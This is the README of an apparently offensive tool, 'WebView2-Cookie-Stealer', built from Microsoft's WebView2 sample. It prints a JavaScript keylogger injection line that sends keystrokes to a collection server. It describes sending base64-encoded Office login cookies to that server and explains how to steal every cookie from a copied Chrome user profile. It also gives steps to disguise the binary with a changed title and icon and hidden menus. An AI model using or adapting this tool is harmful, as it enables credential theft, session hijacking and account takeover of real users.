# Blog Post

Please read <a href="https://mrd0x.com/attacking-with-webview2-applications/" target="_blank">this blog post</a> to get more information.

# Source Code

This code is a modified version of <a href="https://github.com/MicrosoftEdge/WebView2Samples" target="_blank">Microsoft's WebView2 Code</a>. The current code can be cleaned up and made much better.

# Demo

## Launch Example

<img src="https://github.com/mrd0x/WebView2-Cookie-Stealer/blob/main/launch.gif">

## Usage Example

<img src="https://github.com/mrd0x/WebView2-Cookie-Stealer/blob/main/demo2.gif">

# Usage

**Tested on Windows 10 & 11.**

When the binary is executed ```https://office.com/login``` is loaded up. A JavaScript keylogger is injected into every page and keystrokes are sent to ```http://127.0.0.1:8080```. Furthermore, upon the user successfully authenticating the cookies for ```www.office.com``` are base64-encoded and sent to ```http://127.0.0.1:8080``` via an HTTP GET request.

# Modifying JavaScript

If you'd like to modify the JavaScript the code that needs to be changed is shown below at ```line 1096``` in ```AppWindow.cpp```.

```
coreWebView2->AddScriptToExecuteOnDocumentCreated(L"var link = \"http://127.0.0.1:8080/keylog?k=\";var l = \"\";document.onkeypress = function (e){l += e.key;var req = new XMLHttpRequest();req.open(\"GET\",link.concat(l), true);req.send();}", nullptr);
```

# Stealing Chrome Cookies

WebView2 allows you to launch with an existing User Data Folder (UDF) rather than creating a new one. The UDF contains all passwords, sessions, bookmarks etc. Chrome's UDF is located at ```C:\Users\<username>\AppData\Local\Google\Chrome\User Data```. We can simply tell WebView2 to start the instance using this profile and upon launch extract all cookies and transfer them to the attacker's server.

The only catch is that WebView2 looks for a folder called ```EBWebView``` instead of ```User Data``` (not sure why). Copy the ```User Data``` folder and rename it to ```EBWebView```.

## Required Changes

* At ```line 41``` in ```app.cpp```:
  * Change ```std::wstring userDataFolder(L"");``` to ```std::wstring userDataFolder(L"C:\\Path\\To\\Temp");```
  * The specified folder must contain the ```EBWebView``` folder which WebView2 will read from.

* At ```line 40``` in ```ScenarioCookieManagement.cpp```:
  * Change ```GetCookiesHelper(L"https://login.microsoftonline.com");``` to ```GetCookiesHelper(L"");```

When GetCookiesHelper is invoked without any website being provided it will extract all cookies.

**Note: This will not work with the current application if there is a large quantity of cookies because the application sends them using a GET Request which has a length limit.**

# Important Functions

If you'd like to make modifications to the binary you'll find information about the important functions below.

* AppStartPage.cpp - ```GetUri()``` function has the URL that is loaded upon binary execution.
* ScenarioCookieManagement.cpp - ```SendCookies()``` function contains the IP address and port where the cookies are sent.
* AppWindow.cpp - ```CallCookieFunction()``` function waits until the URL starts with ```https://www.office.com/?auth=``` and calls ```ScenarioCookieManagement::GetCookiesHelper(L"https://www.office.com")```
* WebView2APISample.rc - Cosmetic changes
  * Remove the menu bar by setting all ```POPUP``` values to ```""```.
  * Change ```IDS_APP_TITLE``` and ```IDC_WEBVIEW2APISAMPLE```. This is the name of the application in the title bar.
  * Change ```IDI_WEBVIEW2APISAMPLE``` and ```IDI_WEBVIEW2APISAMPLE_INPRIVATE``` and ```IDI_SMALL```. These point to a ```.ico``` file which is the icon for this application.
* Toolbar.cpp - ```itemHeight``` must be set to 0 to remove the top menu. This is already taken care of in this code.
* AppWindow.cpp - ```LoadImage()``` should be commented out. This hides the blue splash image. This is already taken care of in this code.
* App.cpp - ```new AppWindow(creationModeId, WebViewCreateOption(), initialUri, userDataFolder, false);``` change the last param value to ```true```. This hides the toolbar. This is already taken care of in this code.
